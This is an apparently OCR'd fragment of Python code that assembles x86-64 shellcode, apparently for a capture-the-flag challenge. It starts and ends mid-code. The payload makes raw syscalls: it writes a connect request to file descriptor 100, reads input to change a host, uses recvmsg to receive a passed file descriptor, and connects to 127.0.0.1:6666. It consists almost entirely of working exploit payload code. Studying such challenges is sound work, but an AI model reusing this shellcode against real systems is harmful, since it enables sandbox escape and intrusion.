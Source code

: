 ```python
push 8080
push r15
mov rsi,rsp
mov rdi,100
mov rdx,24
mov rax,1
syscall
""") #send connect req


shellcode += asm("""
add r15,8
mov rsi,r15
mov rax,0
mov rdi,0
mov rdx,0x1
syscall
 """) #read and change host


shellcode += asm("""
mov rax,0
mov rdi,100
mov rsi,rsp
mov rdx,16
syscall
""") #receive resp


shellcode += asm("""
sub rsp,1
mov r14,rsp
push 1
push r14
mov r14,rsp
sub rsp,0x800
mov r13,rsp
push 0
push 0x800
push r13
push 1
push r14
push 0
push 0
mov rsi,rsp
mov rdi,100
mov rdx,0
mov rax,47
syscall""") #recieve fd


shellcode += asm("""
mov rbx,0x0100007f0a1a0002
push 0
push rbx
mov rsi,rsp
mov rdi,3
mov rdx,0x10
mov rax,42
syscall """) #connect


shellcode += asm("""
```